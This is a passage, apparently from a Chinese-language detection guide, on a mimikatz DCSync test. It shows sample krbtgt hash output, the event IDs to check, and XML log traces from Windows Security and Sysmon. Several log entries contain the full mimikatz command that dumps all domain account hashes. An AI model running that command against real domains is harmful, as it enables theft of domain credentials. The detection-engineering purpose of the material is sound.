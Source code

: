      ```
     * Username : krbtgt
     * Domain   : ABCC
     * NTLM     : aad3b435b51404eeaad3b435b51404ee
     ```
3. **验证日志**：
   - 检查域控制器事件ID4662（对象操作，{1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}）。
   - 检查Sysmon事件ID1（mimikatz.exe或powershell.exe）。

## 测试留痕

### Windows安全日志
- **事件ID4662**：
  ```xml
  <Event>
    <EventData>
      <Data Name="ObjectType">Directory Service</Data>
      <Data Name="Properties">{1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}</Data>
      <Data Name="Accesses">Control Access</Data>
      <Data Name="SubjectUserName">Administrator</Data>
    </EventData>
  </Event>
  ```
- **事件ID4688**：
  ```xml
  <Event>
    <EventData>
      <Data Name="ProcessName">C:\Tools\mimikatz\mimikatz.exe</Data>
      <Data Name="CommandLine">mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:abcc.org /all /csv" exit</Data>
      <Data Name="SubjectUserName">Administrator</Data>
    </EventData>
  </Event>
  ```

### Sysmon日志
- **事件ID1**：
  ```xml
  <Event>
    <EventData>
      <Data Name="Image">C:\Tools\mimikatz\mimikatz.exe</Data>
      <Data Name="CommandLine">mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:abcc.org /all /csv" exit</Data>
      <Data Name="User">ABCC\Administrator</Data>
    </EventData>
  </Event>
  ```
- **事件ID3**（网络连接）：
  ```xml
  <Event>
    <EventData>
      <Data Name="Image">C:\Tools\mimikatz\mimikatz.exe</Data>
      <Data Name="DestinationIp">192.168.1.10</Data>
      <Data Name="DestinationPort">389</Data>
    </EventData>
  </Event>
  ```
